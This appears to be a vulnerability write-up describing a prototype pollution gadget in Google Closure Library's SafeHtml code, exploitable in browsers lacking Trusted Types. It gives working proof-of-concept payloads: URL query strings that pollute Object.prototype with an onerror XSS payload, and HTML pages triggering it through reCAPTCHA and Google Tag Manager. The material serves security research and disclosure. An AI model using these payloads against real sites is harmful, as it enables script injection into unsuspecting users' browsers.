 ## Google Closure

Closure Library is a powerful, low-level JavaScript library designed for building complex and scalable web applications. 
It is used by many Google web applications, such as Google Search, Gmail, Google Docs, Google+, Google Maps, and others.

**The vulnerability can be exploited in browsers that do not support Trusted Types. For example, FireFox.**

### URL

https://github.com/google/closure-library

### Vulnerable code fragment

https://github.com/google/closure-library/blob/96a4b269b9ad15c008a392e5b59fe66fcf66b526/closure/goog/html/safehtml.js#L1066-L1067

```js
SafeHtml.EMPTY = new SafeHtml(
    (goog.global.trustedTypes && goog.global.trustedTypes.emptyHTML) || '',
```

### PoC

#### Google reCAPTCHA

```
?__proto__[trustedTypes]=x&__proto__[emptyHTML]=<img/src/onerror%3dalert(1)>
```

```html
<script>
    Object.prototype.trustedTypes = "x";
    Object.prototype.emptyHTML = "<img/src/onerror=alert(1)>";
</script>
<script src="https://www.google.com/recaptcha/api.js"></script>
<div class="g-recaptcha" data-sitekey="your-site-key"/>
```

#### Google Tag Manager + Custom HTML Tag

```
?__proto__[trustedTypes]=x&__proto__[emptyHTML]=<img/src/onerror%3dalert(1)>
```

```html
<script>
    Object.prototype.trustedTypes = "x";
    Object.prototype.emptyHTML = "<img/src/onerror=alert(1)>";
</script>
<script>(function(w,d,s,l,i){w[l]=w[l]||[];w[l].push({'gtm.start':
new Date().getTime(),event:'gtm.js'});var f=d.getElementsByTagName(s)[0],
j=d.createElement(s),dl=l!='dataLayer'?'&l='+l:'';j.async=true;j.src=
'https://www.googletagmanager.com/gtm.js?id='+i+dl;f.parentNode.insertBefore(j,f);
})(window,document,'script','dataLayer','GTM-WSPXXTG');</script>
```
